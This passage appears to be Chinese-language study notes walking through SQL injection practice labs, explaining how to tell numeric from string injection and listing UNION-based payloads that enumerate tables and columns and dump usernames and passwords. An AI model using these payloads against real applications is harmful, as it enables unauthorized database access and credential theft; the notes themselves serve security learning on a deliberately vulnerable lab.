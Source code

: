 ```
?id=-1' union select 1,2,group_concat(username ,id , password) from users--+
```

最后将数据输出出来就行

#### lab2

这里记录一下上面没记得一个内容

**如何判断是字符型注入还是数字型注入**

1. 数字型

```sql
select * from users where id = x
```

这种可以用`and 1 = 1` `and 1 = 2`判断

```
?id = x and 1=1     //页面正常
?id = x and 1=2     //页面报错，这说明存在数字型注入
```

2. 字符型

```sql
select * from users where id = 'x'
```

这种可以用`'and '1' = '1` `'and '1' = '2`判断

```
?id=1' and '1'='1	//页面正常
?id=1' and '1'='2	//页面报错，这说明存在字符型注入
```

* 字符型和数字型最大的区别就是要不要单引号闭合

这题一就需要判断了，一开始用单引号发现报错了，直接加就没问题

```
?id=1 order by 3  	//获取列数
```

后面基本一样了

```
?id=-1 union select 1,2,3    					// 还是2，3
?id=-1 union select 1,database(),version() 		 //获取数据库名
?id=-1 union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='security'					 //获取表名
?id=-1 union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='users'						   //获取列名
?id=-1 union select 1,database(),group_concat(username,id,password) from users 
											  // 获取数据
```

#### lab3

~~发现也是数字型~~，看的不仔细orz
输入`?id=1'`的时候报错了，下意识以为是字符型，其实不是
